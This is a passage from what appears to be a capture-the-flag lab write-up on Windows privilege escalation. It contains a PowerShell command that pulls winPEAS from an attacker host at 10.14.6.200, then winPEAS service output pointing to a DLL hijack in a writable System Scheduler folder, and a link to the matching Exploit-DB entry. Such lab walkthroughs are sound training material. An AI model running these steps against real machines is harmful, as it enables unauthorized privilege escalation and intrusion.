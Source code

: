 CD in to the temp folder which is writeable by everyone, then sse PowerShell to pull winPEAS over:

```text
C:\Windows\temp> PowerShell Invoke-WebRequest -Uri http://10.14.6.200:8000/winPEAS.exe -Outfile winpeas.exe
```

There is a lot of output to go through. Eventually we find this section:

```text
  ========================================(Services Information)========================================
  [+] Interesting Services -non Microsoft-
   [?] Check if you can overwrite some service binary or perform a DLL hijacking, also check for unquoted paths https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services
    Amazon EC2Launch(Amazon Web Services, Inc. - Amazon EC2Launch)["C:\Program Files\Amazon\EC2Launch\EC2Launch.exe" service] - Auto - Stopped
    Amazon EC2Launch
   =================================================================================================
    AmazonSSMAgent(Amazon SSM Agent)["C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe"] - Auto - Running
    Amazon SSM Agent
   =================================================================================================
    AWSLiteAgent(Amazon Inc. - AWS Lite Guest Agent)[C:\Program Files\Amazon\XenTools\LiteAgent.exe] - Auto - Running - No quotes and Space detected
    AWS Lite Guest Agent
   =================================================================================================
    Ec2Config(Amazon Web Services, Inc. - Ec2Config)["C:\Program Files\Amazon\Ec2ConfigService\Ec2Config.exe"] - Auto - Running - isDotNet
    Ec2 Configuration Service
   =================================================================================================
    PsShutdownSvc(Systems Internals - PsShutdown)[C:\Windows\PSSDNSVC.EXE] - Manual - Stopped
   =================================================================================================
    WindowsScheduler(Splinterware Software Solutions - System Scheduler Service)[C:\PROGRA~2\SYSTEM~1\WService.exe] - Auto - Running
    File Permissions: Everyone [WriteData/CreateFiles]
    Possible DLL Hijacking in binary folder: C:\Program Files (x86)\SystemScheduler (Everyone [WriteData/CreateFiles])
    System Scheduler Service Wrapper
   =================================================================================================                      
```

The last one above say possible DLL hijack. That sounds interesting, and we find this on Exploit-DB: [Splinterware System Scheduler Pro 5.12 - Privilege Escalation](https://www.exploit-db.com/exploits/45072)

## Task 4
